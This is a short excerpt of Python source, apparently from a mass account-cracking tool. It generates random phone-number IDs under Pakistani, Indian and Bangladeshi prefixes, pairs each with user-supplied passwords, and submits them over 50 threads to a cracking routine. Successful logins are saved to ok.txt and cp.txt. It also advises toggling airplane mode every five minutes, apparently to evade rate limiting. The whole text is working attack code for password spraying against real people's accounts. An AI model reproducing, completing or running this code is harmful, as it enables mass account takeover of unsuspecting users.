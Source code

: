 def i():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    jalan(logo)


    jalan("     \33[37;41m\t  USE OUR COUNTRY CODE  \33[0;m")
    print('')
    jalan('\033[1;36m  PAK  CODES  :  \033[1;33m92301, \033[1;33m92302 ,\033[1;33m92303 ,\033[1;33m92305  ...\033[0;97m')
    jalan('\033[1;32m ══════════════════════════════════════════════════════════')
    jalan('\033[1;36m  INDIA CODES :  \033[1;33m91778, \033[1;33m91930 ,\033[1;33m91902 ,\033[1;33m91712  ...\033[0;97m')
    jalan('\033[1;32m ══════════════════════════════════════════════════════════')
    jalan('\033[1;36m  BD CODES    :  \033[1;33m88016, \033[1;33m88017 ,\033[1;33m88018 ,\033[1;33m88019  ...\033[0;97m')
    jalan('\033[1;32m ══════════════════════════════════════════════════════════\n')
    code = input(' PUT CODE : ')
    print("")
    limit = int(input(' EXAMPLE: 2000, 3000, 50000, 100000\n\n PUT CLONING LIMIT: '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    print(logo)
    passx = int(input("[*] Enter Password Limit : "))
    HamiiID = []
    print("")
    for bilal in range(passx):
        pww = input("[*] Enter Password : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        clear()
        tl = str(len(user))
        print('\033[1;36m TOTAL IDS: '+tl)
        print('\033[1;36m THE PROCESS HAS BEEN STARTED')
        print('\033[1;31m USE AEROPLANE MOOD IN EVERY 5 MIN ')
        print('\033[1;32m••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••')
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
            manshera.submit(rcrack,uid,pwx,tl)
    print('\033[1;32m•••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••')
    print('Crack process has been completed')
    print('Ids saved in ok.txt,cp.txt')
    print('\033[1;32m•••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••')
